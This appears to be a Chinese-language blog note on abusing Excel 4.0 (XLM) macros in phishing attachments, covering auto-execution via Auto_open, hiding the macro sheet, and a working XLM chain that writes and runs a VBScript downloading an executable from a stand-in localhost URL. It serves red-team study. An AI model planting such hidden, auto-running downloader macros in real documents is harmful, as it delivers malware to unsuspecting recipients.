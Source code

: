 ```yaml
---
date: 2025-10-09
category:
  - 网络安全
  - 网络钓鱼
tags:
  - 钓鱼附件
  - Office
  - Office宏
  - Excel4.0宏
excerpt: Excel 4.0 宏是一种在 Microsoft Excel 中使用的宏语言，它是 Excel 中较早期版本的一部分，通常用于自动化和批处理任务。Excel 4.0 宏提供了一组命令和函数，可以执行各种操作，包括计算、数据操作、格式设置等。
---
```


# Excel4.0宏

> [利用Excel 4.0宏执行任意命令 | AdminTony's Blog](http://www.admintony.com/Excel-4-0-macros.html)
>
> [atomic-red-team/atomics/T1204.002/T1204.002.md at 2dcdc27df73cc343d308e7c0afa37f2d77aa02e1 · Ayusummer/atomic-red-team (github.com)](https://github.com/Ayusummer/atomic-red-team/blob/2dcdc27df73cc343d308e7c0afa37f2d77aa02e1/atomics/T1204.002/T1204.002.md#atomic-test-6---excel-4-macro)
>
> ---
>
> [使用 Excel 4.0 宏 - Microsoft 支持](https://support.microsoft.com/zh-cn/office/使用-excel-4-0-宏-ba8924d4-e157-4bb2-8d76-2c07ff02e0b8)
>
> ---
>
> [老树开新花：利用Excel 4.0宏躲避杀软检测的攻击技术分析 (qq.com)](https://mp.weixin.qq.com/s/KVpO02KJWE6OVZDb0ungOA)
>
> [Old school: evil Excel 4.0 macros (XLM) | Outflank](https://www.outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)

Excel 4.0 宏是一种在 Microsoft Excel 中使用的宏语言，它是 Excel 中较早期版本的一部分，通常用于自动化和批处理任务。Excel 4.0 宏提供了一组命令和函数，可以执行各种操作，包括计算、数据操作、格式设置等。

Microsoft很早就使用VBA宏（Visual Basic for Applications）来代替Excel 4.0宏技术，这导致Excel 4.0宏并不为大众所熟知。并且Excel 4.0宏存放在Excel 97 - 2003格式（.xls）文件中。

默认情况下 office 是禁用宏的, 要启用 Excel4.0宏支持需要

`打开 Excel -> 文件 -> 选项 -> 信任中心 -> 信任中心设置 -> 宏设置 -> 启用所有宏`

![image-20240422170036218](http://cdn.ayusummer233.top/DailyNotes/202404221700959.png)

创建一个新的 Excel 工作簿, `右键 Sheet1 -> 插入 -> MS Excel 4.0 宏表`

![image-20240422170503721](http://cdn.ayusummer233.top/DailyNotes/202404221706938.png)

![image-20240422170635598](http://cdn.ayusummer233.top/DailyNotes/202404221706681.png)

`确定` 后可以看到多了一张名为 `宏1` 的表, 可以在其中输入 XLM宏, 然后可以单击任何单元格并在此单元格和竖直下面的单元格中输入宏公式

![image-20240422170717659](http://cdn.ayusummer233.top/DailyNotes/202404221707820.png)

XLM 宏有如下特征:

- **函数式宏**：XLM 宏通常以函数的形式出现在 Excel 单元格中。这些函数以等号（=）开头，后面跟随一系列的参数和函数名。例如：`=HALT()`。
- **内置函数**：XLM 提供了一系列内置函数，用于执行各种操作，如文件操作、计算、格式设置等。例如：`HALT()` 用于停止执行宏，`GOTO()` 用于跳转到指定位置等。
- **参数**：XLM 函数可以带有参数，用于指定函数执行时所需的信息。参数可以是常量、单元格引用或者其他函数的返回值。
- **宏表**：除了存储在单元格中，XLM 宏还可以存储在 Excel 的宏表中。宏表是一种特殊的工作表，其中的内容被解释为宏代码而不是普通的数据。你可以在 Excel 中创建宏表，并在其中编写 XLM 宏代码。
- **简单的语法**：相比于 VBA（Visual Basic for Applications），XLM 的语法相对简单。它没有像 VBA 那样的完整的编程语言功能，但足以完成一些基本的自动化任务。

例如写一个调起计算器的 XLM:

```
=EXEC("calc.exe")
=HALT()
```

然后可以右键宏起始单元格选择 `执行`

![image-20240422173251380](http://cdn.ayusummer233.top/DailyNotes/202404221732515.png)

![image-20240422173504260](http://cdn.ayusummer233.top/DailyNotes/202404221735383.png)

![image-20240422173531256](http://cdn.ayusummer233.top/DailyNotes/202404221735362.png)

---

## 自动执行

如果希望在打开工作簿时自动运行宏（类似于VBA宏的 `Sub AutoOpen()`）可以将宏的第一个单元格重命名为`Auto_open`

![image-20240422174158340](http://cdn.ayusummer233.top/DailyNotes/202404221741405.png)

保存时选择 `Excel 97-2003 工作簿(*.xls)`

![image-20240422174251880](http://cdn.ayusummer233.top/DailyNotes/202404221742953.png)

再打开这个文件时会自动执行宏

![image-20240422174334700](http://cdn.ayusummer233.top/DailyNotes/202404221743787.png)

---

## 隐藏表单

![image-20240422174355987](http://cdn.ayusummer233.top/DailyNotes/202404221743058.png)

![image-20240422174404534](http://cdn.ayusummer233.top/DailyNotes/202404221744642.png)

即便隐藏了, 设置自动执行的宏也会自动执行

![image-20240422174438706](http://cdn.ayusummer233.top/DailyNotes/202404221744835.png)

---

## 加载 shellcode

> [老树开新花：利用Excel 4.0宏躲避杀软检测的攻击技术分析 (qq.com)](https://mp.weixin.qq.com/s/KVpO02KJWE6OVZDb0ungOA)
>
> [Old school: evil Excel 4.0 macros (XLM) | Outflank](https://www.outflank.nl/blog/2018/10/06/old-school-evil-excel-4-0-macros-xlm/)

---

## 下载与执行远程文件

虽然 XLM 不支持网络操作和文件下载, 但是可以通过新建并写入一个 VBScript 并运行来实现下载与运行

例如

```
Win10Pro
procexp.exe
atomic_redteam_x4m_exec.vbs
=IF(ISNUMBER(SEARCH("64",GET.WORKSPACE(1))), GOTO(A5),)
=FOPEN("C:\Users\"&A1&"\AppData\Local\Temp\"&A3&"", 3)
=FWRITELN(A5, "url = ""http://127.0.0.1:8000/download/msedge.exe""")
=FWRITELN(A5, "")
=FWRITELN(A5, "Set winHttp = CreateObject(""WinHTTP.WinHTTPrequest.5.1"")")
=FWRITELN(A5, "winHttp.Open ""GET"", url, False")
=FWRITELN(A5, "winHttp.Send")
=FWRITELN(A5, "If winHttp.Status = 200 Then")
=FWRITELN(A5, "Set oStream = CreateObject(""ADODB.Stream"")")
=FWRITELN(A5, "oStream.Open")
=FWRITELN(A5, "oStream.Type = 1")
=FWRITELN(A5, "oStream.Write winHttp.responseBody")
=FWRITELN(A5, "oStream.SaveToFile ""C:\Users\"&A1&"\AppData\Local\Temp\"&A2&""", 2")
=FWRITELN(A5, "oStream.Close")
=FWRITELN(A5, "End If")
=FCLOSE(A5)
=EXEC("explorer.exe C:\Users\"&A1&"\AppData\Local\Temp\"&A3&"")
=WAIT(NOW()+"00:00:05")
=EXEC("explorer.exe C:\Users\"&A1&"\AppData\Local\Temp\"&A2&"")
=HALT()
```

![image-20240422190714511](http://cdn.ayusummer233.top/DailyNotes/202404221907695.png)

![image-20240422191356514](http://cdn.ayusummer233.top/DailyNotes/202404221913585.png)

![image-20240422191427234](http://cdn.ayusummer233.top/DailyNotes/202404221914321.png)

---

## 相关链接

- [常见钓鱼招式 - 先知社区 (aliyun.com)](https://xz.aliyun.com/t/10339?time__1311=Cqjx2QD%3DiteWqGNDQimOgbtDtt0QtDReOYD)

---















